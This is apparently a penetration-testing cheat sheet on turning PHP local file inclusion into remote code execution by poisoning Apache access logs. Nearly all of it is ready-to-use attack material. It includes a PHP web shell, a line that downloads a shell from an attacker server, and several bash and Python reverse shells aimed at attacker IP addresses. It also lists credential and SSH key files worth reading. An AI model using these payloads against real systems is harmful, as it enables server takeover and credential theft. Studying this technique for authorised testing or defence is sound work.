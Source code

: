 ## Local file inclusion

### PHP


















For PHP RCE, you'll want to use a technique called `log poisoning`.

##### Required
Access to files
A log file (Usually `/var/log/apache2/access.log`), see #

#### Linux
##### Important
First, run 
```
../../../proc/self/environ
```
to get general information.
If RCE doesn't work, try RFI (other vhosts on machine)
If there is HTTP-BASIC-AUTH involved, check the `.htpasswd` file, it often contains credentials. (usually `/etc/apache2/.htpasswd`)
##### Target files: 
```
RCE:
/var/log/apache2/access.log
Payload:
	bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.10.10%2F4444%200%3E%261%22 

Other potentially interesting files:
/proc/self/environ
/etc/passwd -->
	/home/USER_FOUND/.ssh/id_rsa
	/home/USER_FOUND/.bash_history
	/home/USER_FOUND/.bash_profile

```

#### Windows
##### Target files: 
```
C:\xampp\apache\logs\access.log
Payload:
	https://www.revshells.com/ (Powershell base64 - URL encoded)
```

#### General
Payload: 
```
<?php system($_GET['test']);?>

// Get PHP shell (named shell.php) from python3 server (saves as shell.php)
<?php file_put_contents('shell.php', file_get_contents('http://IP:PORT/shell.php'))?>
```

First, you need to get the payload in the log system:

```
nc IP PORT
GET /'<?php system($_GET['rce']); ?>'
test=bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.45.241%2F4444%200%3E%261%22 
```

If this does not work, set your User-Agent as the payload.

To use the payload, send a request to the log file with the command in your payload:
```
// Template
curl http://IP/vulnerable.php?file=LOG_FILE_LOCATION&CMD=PAYLOAD

// Examples
curl http://IP/vulnerable.php?file=LOG_FILE_LOCATION&CMD=sh -i >& /dev/tcp/10.8.1.167/4444 0>&1
curl http://IP/vulnerable.php?file=LOG_FILE_LOCATION&CMD=export RHOST="10.8.1.167";export RPORT=4444;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
```

### Note
Importanot note:
If you can read `/etc/passwd`, go through every user's home directory for the `.bashrc`


##### Mongo
Target file: `/var/www/dev/index.js`